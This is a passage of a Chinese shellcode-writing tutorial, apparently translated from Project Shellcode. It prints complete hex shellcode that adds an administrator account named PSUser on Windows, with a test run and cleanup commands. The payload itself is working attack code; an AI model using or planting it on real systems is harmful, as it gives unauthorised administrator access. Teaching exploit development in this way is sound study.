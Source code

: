 ```
[./xxd-shellcode.sh adduser-dynamic.asm]
    \xe9\x9b\x00\x00\x00\x56\x31\xc0\x64\x8b\x40\x30\x85\xc0\x78\x0f\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40\x08\xe9\x09\x00\x00\x00\x8b\x40\x34\x8d\x40\x7c\x8b\x40\x3c\x5e\xc3\x60\x8b\x6c\x24\x24\x8b\x45\x3c\x8b\x54\x05\x78\x01\xea\x8b\x4a\x18\x8b\x5a\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xad\x50\x52\xe8\xaa\xff\xff\xff\x89\x07\x81\xc4\x08\x00\x00\x00\x81\xc7\x04\x00\x00\x00\x39\xce\x75\xe6\xc3\xe8\x19\x00\x00\x00\x98\xfe\x8a\x0e\x7e\xd8\xe2\x73\x81\xec\x08\x00\x00\x00\x89\xe5\xe8\x58\xff\xff\xff\x89\xc2\xeb\xe2\x5e\x8d\x7d\x04\x89\xf1\x81\xc1\x08\x00\x00\x00\xe8\xb6\xff\xff\xff\xeb\x0e\x5b\x31\xc0\x50\x53\xff\x55\x04\x31\xc0\x50\xff\x55\x08\xe8\xed\xff\xff\xff\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x6e\x65\x74\x20\x75\x73\x65\x72\x20\x50\x53\x55\x73\x65\x72\x20\x50\x53\x50\x61\x73\x73\x77\x64\x20\x2f\x41\x44\x44\x20\x26\x26\x20\x6e\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72\x6f\x75\x70\x20\x41\x64\x6d\x69\x6e\x69\x73\x74\x72\x61\x74\x6f\x72\x73\x20\x2f\x41\x44\x44\x20\x50\x53\x55\x73\x65\x72 
```

创建 adduser-dynamic.shellcodetest.c

把 adduser-dynamic.shellcodetest.c 编译成 adduser-dynamic.shellcodetest.c

完成.你现在可以执行./adduser-dynamic.shellcodetest[.exe]了

玩的开心!

    Ty Miller     www.projectshellcode.com

现在应该准备测试 shellcode 测试 shellcode 在运行这个程序之前我们通过以下命令列出在你本地系统上的账户:

    # net user     (lists the local accounts on your system)

你现在应该可以通过测试程序执行你的 shellcode”./adduser-dynamic.shellcodetest 创建的这个 shellcode 把一个命名为”PSUser”具有管理员权限的用户添加到你的系统上,然后应该干净利索地退出

    # ./adduser-dynamic.shellcodetest     The command completed successfully.     (adds a user account)     The command completed successfully.     (adds the user account to the administrators group)     (then exists cleanly)

我们现在使用命令再次确认用户是否已经被创建了，如下所示：

> net user     (lists the local accounts, now including "PSUser")

清理

你应该确保你已经把这个账户从你的系统中删除了,以防这个账户不被他人使用而把你的系统黑了.使用如下命令:

> net user PSUser /delete     The command completed successfully.     (deletes the "PSUser" account)

恭喜！

你已经创建了 shellcode,它可以自动找到我们需要的 Kernel32.dll 和 windows 函数的内存地址.然后 shellcode 使用这些函数地址来执行函数以在本地系统上添加一个具有管理员权限的账户你现在可以写出跨多种不同 windows 系统的可移植的 shellcode 了！但是学习不能只停留在这里！我们现在需要知道怎样创建网络连接以使一个远程攻击者可以在受危害的系统上执行命令.这将会在下一个教程提及
